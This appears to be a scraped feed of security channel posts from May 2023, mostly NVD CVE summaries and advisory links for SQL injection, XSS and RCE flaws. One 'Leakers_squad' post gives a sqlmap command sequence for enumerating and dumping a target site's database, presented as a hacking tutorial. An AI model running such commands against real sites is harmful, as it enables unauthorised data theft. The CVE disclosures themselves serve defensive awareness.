* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2770

<blockquote>
‼ CVE-2023-2770 ‼

A vulnerability classified as critical was found in SourceCodester Online Exam System 1.0. This vulnerability affects unknown code of the file /kelasdosen/data. The manipulation of the argument columns[1][data] leads to sql injection. The attack can be initiated remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-229276.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2772

<blockquote>
‼ CVE-2023-2772 ‼

A vulnerability, which was classified as critical, was found in SourceCodester Budget and Expense Tracker System 1.0. Affected is an unknown function of the file /admin/budget/manage_budget.php of the component GET Parameter Handler. The manipulation of the argument id leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. VDB-229278 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-17`

<blockquote>
WordPress Core 6.2 XSS / CSRF / Directory Traversal
https://packetstormsecurity.com/files/172426/wpcore620-traversalxssxsrf.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172426/wpcore620-traversalxssxsrf.txt">
https://packetstormsecurity.com/files/172426/wpcore620-traversalxssxsrf.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31903

<blockquote>
‼ CVE-2023-31903 ‼

GuppY CMS 6.00.10 is vulnerable to Unrestricted File Upload which allows remote attackers to execute arbitrary code by uploading a php file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31904

<blockquote>
‼ CVE-2023-31904 ‼

savysoda Wifi HD Wireless Disk Drive 11 is vulnerable to Local File Inclusion.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31703

<blockquote>
‼ CVE-2023-31703 ‼

Cross Site Scripting (XSS) in the edit user form in Microworld Technologies eScan management console 14.0.1400.2281 allows remote attacker to inject arbitrary code via the from parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31698

<blockquote>
‼ CVE-2023-31698 ‼

Bludit v3.14.1 is vulnerable to Stored Cross Site Scripting (XSS) via SVG file on site logo.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31702

<blockquote>
‼ CVE-2023-31702 ‼

SQL injection in the View User Profile in MicroWorld eScan Management Console 14.0.1400.2281 allows remote attacker to dump entire database and gain windows XP command shell to perform code execution on database server via GetUserCurrentPwd?UsrId&#61;1.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31699

<blockquote>
‼ CVE-2023-31699 ‼

ChurchCRM v4.5.4 is vulnerable to Reflected Cross-Site Scripting (XSS) via image file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# sysadm_in_channel
`2023-05-17`

<blockquote>
/ Chrome Use after free Security Fixes (Critical, High)

113.0.5672.126 for Mac and Linux and 113.0.5672.126/.127 for Windows:

— https://chromereleases.googleblog.com/2023/05/stable-channel-update-for-desktop_16.html
</blockquote>

<table><tr><td><b>→</b><a href="https://chromereleases.googleblog.com/2023/05/stable-channel-update-for-desktop_16.html">
https://chromereleases.googleblog.com/2023/05/stable-channel-update-for-desktop_16.html
</a>
<blockquote>
The Stable channel has been updated to 113.0.5672.126 for Mac and Linux and  113.0.5672.126 /.127 for  Windows ,  which will roll out over t...
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2756

<blockquote>
‼ CVE-2023-2756 ‼

SQL Injection in GitHub repository pimcore/customer-data-framework prior to 3.3.10.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2509

<blockquote>
‼ CVE-2023-2509 ‼

A Cross-Site Scripting(XSS) vulnerability was found on ADM, LooksGood and SoundsGood Apps. An attacker can exploit this vulnerability to inject malicious scripts into the target applications to access any cookies or sensitive information retained by the browser and used with that application. Affected products and versions include: ADM 4.0.6.REG2, 4.1.0 and below as well as ADM 4.2.1.RGE2 and below, LooksGood 2.0.0.R129 and below and SoundsGood 2.3.0.r1027 and below.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2752

<blockquote>
‼ CVE-2023-2752 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository thorsten/phpmyfaq prior to 3.2.0-beta.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2753

<blockquote>
‼ CVE-2023-2753 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository thorsten/phpmyfaq prior to 3.2.0-beta.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2608

<blockquote>
‼ CVE-2023-2608 ‼

The Multiple Page Generator Plugin for WordPress is vulnerable to Cross-Site Request Forgery leading to time-based SQL Injection via the orderby and order parameters in versions up to, and including, 3.3.17 due to missing nonce verification on the projects_list function and insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries leading to resource exhaustion via a forged request granted they can trick an administrator into performing an action such as clicking on a link. Version 3.3.18 addresses the SQL Injection, which drastically reduced the severity.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30452

<blockquote>
‼ CVE-2023-30452 ‼

The MoroSystems EasyMind - Mind Maps plugin before 2.15.0 for Confluence allows persistent XSS when saving a Mind Map with the hyperlink parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31848

<blockquote>
‼ CVE-2023-31848 ‼

davinci 0.3.0-rc is vulnerable to Server-side request forgery (SSRF).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45144

<blockquote>
‼ CVE-2022-45144 ‼

Algoo Tracim before 4.4.2 allows XSS via HTML file upload.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-27742

<blockquote>
‼ CVE-2023-27742 ‼

IDURAR ERP/CRM v1 was discovered to contain a SQL injection vulnerability via the component /api/login.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31544

<blockquote>
‼ CVE-2023-31544 ‼

A stored cross-site scripting (XSS) vulnerability in alkacon-OpenCMS v11.0.0.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Title field under the Upload Image module.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-27131

<blockquote>
‼ CVE-2021-27131 ‼

Moodle 3.10.1 is vulnerable to persistent/stored cross-site scripting (XSS) due to the improper input sanitization on the &quot;Additional HTML Section&quot; via &quot;Header and Footer&quot; parameter in /admin/settings.php. This vulnerability is leading an attacker to steal admin and all user account cookies by storing the malicious XSS payload in Header and Footer.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30189

<blockquote>
‼ CVE-2023-30189 ‼

Prestashop posstaticblocks &lt;&#61; 1.0.0 is vulnerable to SQL Injection via posstaticblocks::getPosCurrentHook().

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-32977

<blockquote>
‼ CVE-2023-32977 ‼

Jenkins Pipeline: Job Plugin does not escape the display name of the build that caused an earlier build to be aborted, resulting in a stored cross-site scripting (XSS) vulnerability exploitable by attackers able to set build display names immediately.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-32984

<blockquote>
‼ CVE-2023-32984 ‼

Jenkins TestNG Results Plugin 730.v4c5283037693 and earlier does not escape several values that are parsed from TestNG report files and displayed on the plugin's test information pages, resulting in a stored cross-site scripting (XSS) vulnerability exploitable by attackers able to provide a crafted TestNG report file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33007

<blockquote>
‼ CVE-2023-33007 ‼

Jenkins LoadComplete support Plugin 1.0 and earlier does not escape the LoadComplete test name, resulting in a stored cross-site scripting (XSS) vulnerability exploitable by attackers with Item/Configure permission.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-16`

<blockquote>
Kiddoware Kids Place Parental Control Android App 3.8.49 XSS / CSRF / File Upload
https://packetstormsecurity.com/files/172397/SA-20230515-0.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172397/SA-20230515-0.txt">
https://packetstormsecurity.com/files/172397/SA-20230515-0.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-16`

<blockquote>
GaanaGawaana Music Platform PHP Script 1.0 Cross Site Scripting / SQL Injection
https://packetstormsecurity.com/files/172394/ggmp10-sqlxss.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172394/ggmp10-sqlxss.txt">
https://packetstormsecurity.com/files/172394/ggmp10-sqlxss.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31519

<blockquote>
‼ CVE-2023-31519 ‼

Pharmacy Management System v1.0 was discovered to contain a SQL injection vulnerability via the email parameter at login_core.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31587

<blockquote>
‼ CVE-2023-31587 ‼

Tenda AC5 router V15.03.06.28 was discovered to contain a remote code execution (RCE) vulnerability via the Mac parameter at ip/goform/WriteFacMac.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29439

<blockquote>
‼ CVE-2023-29439 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in FooPlugins FooGallery plugin &lt;&#61; 2.2.35 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31857

<blockquote>
‼ CVE-2023-31857 ‼

Sourcecodester Online Computer and Laptop Store 1.0 allows unrestricted file upload and can lead to remote code execution. The vulnerability path is /classes/Users.php?f&#61;save.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2730

<blockquote>
‼ CVE-2023-2730 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository pimcore/pimcore prior to 10.3.3.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23641

<blockquote>
‼ CVE-2023-23641 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in WPmanage Uji Popup plugin &lt;&#61; 1.4.3 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23720

<blockquote>
‼ CVE-2023-23720 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in NetReviews SAS Verified Reviews (Avis Vérifiés) plugin &lt;&#61; 2.3.13 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23657

<blockquote>
‼ CVE-2023-23657 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Richard Leishman t/a Webforward Mail Subscribe List plugin &lt;&#61; 2.1.9 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23703

<blockquote>
‼ CVE-2023-23703 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Tyche Softwares Arconix Shortcodes plugin &lt;&#61; 2.1.7 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23709

<blockquote>
‼ CVE-2023-23709 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Denis WPJAM Basic plugin &lt;&#61; 6.2.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# Leakers_squad
`2023-05-16`

* https://t.me/leakers_Squad/1841

<blockquote>
🖥 SQL Injection WebSite Hacking Tool 💻

Kali Linux

We open the terminal

sqlmap -u targetsite.com

sqlmap -u targetsite.com --dbs

sqlmap -u targetsite.com -D data name --tables

sqlmap -u targetsite.com -D data name -T tablo name --columns

sqlmap -u targetsite.com -D data name -T tablo name -C column name --dump

You don't need to build a vehicle Kali Linux is also available

Credit : @Mr_Neophyte
Contact for posting these content in your channel 

Share with Your Friends.

If you want to report any copyright violation, please write to us at  @Leakers_squad_bot and we will ensure to remove that post within 48 hours
Read this
</blockquote>

<table><tr><td><b>→</b><a href="https://t.me/leakers_Squad/1841">
https://t.me/leakers_Squad/1841
</a>
<blockquote>
🔰Important Notice🔰

⭕️This channel is only for educational purposes

⭕️ Any course, trick, links shared only to share knowledge 

⭕️Does not provide any illegal services 

⭕️All video’s and tutorials are for informational and educational purposes only

⭕️We are taking all download link from third party websites and other sources on internet.

⭕️ We are not uploading courses on clouds, We are not the owner of any content

If you want to report any copyright violation, please write to us at @Leakers_squad_bot and we will ensure to remove that post within 48 hours
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21111

<blockquote>
‼ CVE-2023-21111 ‼

In several functions of PhoneAccountRegistrar.java, there is a possible way to prevent an access to emergency services due to improper input validation. This could lead to local denial of service with no additional execution privileges needed. User interaction is not needed for exploitation.Product: AndroidVersions: Android-11 Android-12 Android-12L Android-13Android ID: A-256819769

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-32314

<blockquote>
‼ CVE-2023-32314 ‼

vm2 is a sandbox that can run untrusted code with Node's built-in modules. A sandbox escape vulnerability exists in vm2 for versions up to and including 3.9.17. It abuses an unexpected creation of a host object based on the specification of `Proxy`. As a result a threat actor can bypass the sandbox protections to gain remote code execution rights on the host running the sandbox. This vulnerability was patched in the release of version `3.9.18` of `vm2`. Users are advised to upgrade. There are no known workarounds for this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31145

<blockquote>
‼ CVE-2023-31145 ‼

Collabora Online is a collaborative online office suite based on LibreOffice technology. This vulnerability report describes a reflected XSS vulnerability with full CSP bypass in Nextcloud installations using the recommended bundle. The vulnerability can be exploited to perform a trivial account takeover attack. The vulnerability allows attackers to inject malicious code into web pages, which can be executed in the context of the victim's browser session. This means that an attacker can steal sensitive data, such as login credentials or personal information, or perform unauthorized actions on behalf of the victim, such as modifying or deleting data. In this specific case, the vulnerability allows for a trivial account takeover attack. An attacker can exploit the vulnerability to inject code into the victim's browser session, allowing the attacker to take over the victim's account without their knowledge or consent. This can lead to unauthorized access to sensitive information and data, as well as the ability to perform actions on behalf of the victim. Furthermore, the fact that the vulnerability bypasses the Content Security Policy (CSP) makes it more dangerous, as CSP is an important security mechanism used to prevent cross-site scripting attacks. By bypassing CSP, attackers can circumvent the security measures put in place by the web application and execute their malicious code. This issue has been patched in versions 22.05.13, 21.11.9, and 6.4.27. Users are advised to upgrade. There are no known workarounds for this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-32308

<blockquote>
‼ CVE-2023-32308 ‼

anuko timetracker is an open source time tracking system. Boolean-based blind SQL injection vulnerability existed in Time Tracker invoices.php in versions prior to 1.22.11.5781. This was happening because of a coding error after validating parameters in POST requests. There was no check for errors before adjusting invoice sorting order. Because of this, it was possible to craft a POST request with malicious SQL for Time Tracker database. This issue has been fixed in version 1.22.11.5781. Users are advised to upgrade. Users unable to upgrade may insert an additional check for errors in a condition before calling `ttGroupHelper::getActiveInvoices()` in invoices.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30245

<blockquote>
‼ CVE-2023-30245 ‼

SQL injection vulnerability found in Judging Management System v.1.0 allows a remote attacker to execute arbitrary code via the crit_id parameter of the edit_criteria.php file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1207

<blockquote>
‼ CVE-2023-1207 ‼

This HTTP Headers WordPress plugin before 1.18.8 has an import functionality which executes arbitrary SQL on the server, leading to an SQL Injection vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31844

<blockquote>
‼ CVE-2023-31844 ‼

Sourcecodester Faculty Evaluation System v1.0 is vulnerable to SQL Injection via /eval/admin/manage_subject.php?id&#61;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22706

<blockquote>
‼ CVE-2023-22706 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in PropertyHive plugin &lt;&#61; 1.5.48 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2180

<blockquote>
‼ CVE-2023-2180 ‼

The KIWIZ Invoices Certification &amp; PDF System WordPress plugin through 2.1.3 does not validate the path of files to be downloaded, which could allow unauthenticated attacker to read/downlaod arbitrary files, as well as perform PHAR unserialization (assuming they can upload a file on the server)

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22717

<blockquote>
‼ CVE-2023-22717 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in nCrafts FormCraft plugin &lt;&#61; 1.2.6 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31845

<blockquote>
‼ CVE-2023-31845 ‼

Sourcecodester Faculty Evaluation System v1.0 is vulnerable to SQL Injection via /eval/admin/manage_class.php?id&#61;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31842

<blockquote>
‼ CVE-2023-31842 ‼

Sourcecodester Faculty Evaluation System v1.0 is vulnerable to SQL Injection via /eval/index.php?page&#61;edit_faculty&amp;id&#61;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23654

<blockquote>
‼ CVE-2023-23654 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in SparkPost plugin &lt;&#61; 3.2.5 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0600

<blockquote>
‼ CVE-2023-0600 ‼

The WP Visitor Statistics (Real Time Traffic) WordPress plugin before 6.9 does not escape user input which is concatenated to an SQL query, allowing unauthenticated visitors to conduct SQL Injection attacks.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23674

<blockquote>
‼ CVE-2023-23674 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in RVOLA WP Original Media Path plugin &lt;&#61; 2.4.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23688

<blockquote>
‼ CVE-2023-23688 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Sumo Social Share Boost plugin &lt;&#61; 4.4 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47391

<blockquote>
‼ CVE-2022-47391 ‼

In multiple CODESYS products in multiple versions an unauthorized, remote attacker may use a improper input validation vulnerability to read from invalid addresses leading to a denial of service.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22684

<blockquote>
‼ CVE-2023-22684 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Subscribers.Com Subscribers plugin &lt;&#61; 1.5.3 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-22508

<blockquote>
‼ CVE-2022-22508 ‼

Improper Input Validation vulnerability in multiple CODESYS V3 products allows an authenticated remote attacker to block consecutive logins of a specific type.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47378

<blockquote>
‼ CVE-2022-47378 ‼

Multiple CODESYS products in multiple versions are prone to a improper input validation vulnerability. An authenticated remote attacker may craft specific requests that use the vulnerability leading to a denial-of-service condition.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-15`

<blockquote>
Nextcloud: Reflected XSS vulnerability with full CSP bypass in Nextcloud installations using recommended bundle
https://vulners.com/hackerone/H1:1893186?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1893186?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1893186?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Summary: The vulnerability report describes a reflected XSS vulnerability with full CSP bypass in Nextcloud installations using the recommended bundle. The vulnerability can be exploited to perform a trivial account takeover attack. Steps To...
</blockquote>
</td></tr></table>

---

# RalfHackerChannel
`2023-05-14`

<blockquote>
CompMgmtLauncher &amp; Sharepoint UAC bypass + Persistence 

Windows 10 1507 (not vuln.)
Windows 10 1511 (vulnerable)
Windows 10 1607 (not vuln)
Windows 11 21996.1 (Persist/LOLbin)

https://github.com/hackerhouse-opensource/CompMgmtLauncher_DLL_UACBypass

&#35;uac &#35;persist &#35;git &#35;pentest &#35;redteam
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/hackerhouse-opensource/CompMgmtLauncher_DLL_UACBypass">
https://github.com/hackerhouse-opensource/CompMgmtLauncher_DLL_UACBypass
</a>
<blockquote>
CompMgmtLauncher &amp; Sharepoint DLL Search Order hijacking UAC/persist via OneDrive - GitHub - hackerhouse-opensource/CompMgmtLauncher_DLL_UACBypass: CompMgmtLauncher &amp; Sharepoint DLL...
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2698

<blockquote>
‼ CVE-2023-2698 ‼

A vulnerability classified as critical was found in SourceCodester Lost and Found Information System 1.0. Affected by this vulnerability is an unknown functionality of the file admin/?page&#61;items/manage_item of the component GET Parameter Handler. The manipulation of the argument id leads to sql injection. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-228979.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2699

<blockquote>
‼ CVE-2023-2699 ‼

A vulnerability, which was classified as critical, has been found in SourceCodester Lost and Found Information System 1.0. Affected by this issue is some unknown functionality of the file admin/?page&#61;items/view_item of the component GET Parameter Handler. The manipulation of the argument id leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-228980.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2697

<blockquote>
‼ CVE-2023-2697 ‼

A vulnerability classified as critical has been found in SourceCodester Online Exam System 1.0. Affected is an unknown function of the file /jurusan/data of the component POST Parameter Handler. The manipulation of the argument columns[1][data] leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. VDB-228978 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2689

<blockquote>
‼ CVE-2023-2689 ‼

A vulnerability classified as critical was found in SourceCodester Billing Management System 1.0. This vulnerability affects unknown code of the file editproduct.php of the component GET Parameter Handler. The manipulation of the argument id leads to sql injection. The attack can be initiated remotely. The exploit has been disclosed to the public and may be used. VDB-228970 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2693

<blockquote>
‼ CVE-2023-2693 ‼

A vulnerability was found in SourceCodester Online Exam System 1.0 and classified as critical. Affected by this issue is some unknown functionality of the file /mahasiswa/data of the component POST Parameter Handler. The manipulation of the argument columns[1][data] leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. VDB-228974 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2690

<blockquote>
‼ CVE-2023-2690 ‼

A vulnerability, which was classified as critical, has been found in SourceCodester Personnel Property Equipment System 1.0. This issue affects some unknown processing of the file admin/returned_reuse_form.php of the component GET Parameter Handler. The manipulation of the argument client_id leads to sql injection. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-228971.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# Leakers_squad
`2023-05-14`

* https://t.me/leakers_Squad/1841

<blockquote>
😊😊SQL Injection Tutorials

▪️Pdf Password:- @Hell_Trick

▪️Posted by @Sirayush0

If you want to report any copyright violation, please write to us at  @Leakers_squad_bot and we will ensure to remove that post within 48 hours
Read this
</blockquote>

---

# defcon_news
`2023-05-13`

<blockquote>
Lfi-Space - LFI Scan Tool
http://www.kitploit.com/2023/05/lfi-space-lfi-scan-tool.html
</blockquote>

